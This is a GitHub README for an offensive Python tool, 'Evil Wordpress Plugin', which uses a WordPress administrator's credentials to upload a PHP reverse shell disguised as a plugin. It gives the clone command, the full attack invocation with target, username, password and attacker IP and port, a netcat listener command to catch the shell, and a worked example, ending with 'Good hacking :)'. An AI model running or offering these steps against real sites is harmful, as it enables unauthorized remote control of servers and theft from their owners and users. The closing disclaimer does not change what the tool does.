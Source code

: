 
<div align="center">

  <img src="https://github.com/Jsmoreira02/Pwn_wordpress/assets/103542430/6392fe40-bfff-4784-acfd-645ba2155574" height=130>

  
  [![License: GPL-2.0](https://img.shields.io/badge/License-GPL--2.0-blue.svg)](https://opensource.org/licenses/GPL-2.0)
  
  <img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Tool%20-Shell upload | reverse shell-brown.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Target OS%20-Linux-yellow.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">  
  <img src="https://img.shields.io/badge/Type%20-Script-red.svg" style="max-width: 100%;">

</div>

# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/Jsmoreira02/_Malicious.git
```
    
## [Running Script]

### Attacking the Target Website: ###

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Pwn_Wordpress/assets/103542430/532470ab-161f-487d-a59b-f3d0d7366c25)


- **The speed depends on your connection, check the stability of your connection in case there is a slowdown in execution**


```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

**Executing Handler**

```bash 
nc -lvp {LOCAL PORT}
```

**Help section (-h)**

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```


### In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program ###

 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It was written for fun, not evil and is intended to raise awareness about cybersecurity


